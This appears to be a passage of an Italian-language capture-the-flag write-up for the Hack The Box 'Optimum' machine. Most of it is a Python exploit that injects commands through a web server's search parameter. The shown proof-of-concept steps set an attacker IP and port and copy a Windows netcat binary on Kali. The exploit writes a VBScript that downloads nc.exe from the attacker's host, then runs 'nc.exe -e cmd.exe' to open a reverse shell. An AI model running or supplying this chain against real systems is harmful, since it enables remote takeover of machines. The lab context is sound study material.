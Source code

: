 ```bash

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
	
            
```

# GAINING AN INITIAL FOOTHOLD

Proof of concept:

Idea di base è quella di fare eseguire alla macchina 
target una richiesta http ad un ip stabilito per scaricare un nc ed una volta scaricato
farà una chiamata ad nostro nostra porta in ascolto...

modifichiamo il codice con in nostro ip e la porta a cui vogliamo che nc ci raggiunga

	ip_addr = "10.10.14.53" #local IP address
	local_port = "6969" # Local Port number

Kali ha una versione di nc per windows la troviamo e la copiamo nel directory

```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe

┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# cp /usr/share/windows-resources/binaries/nc.exe .
```
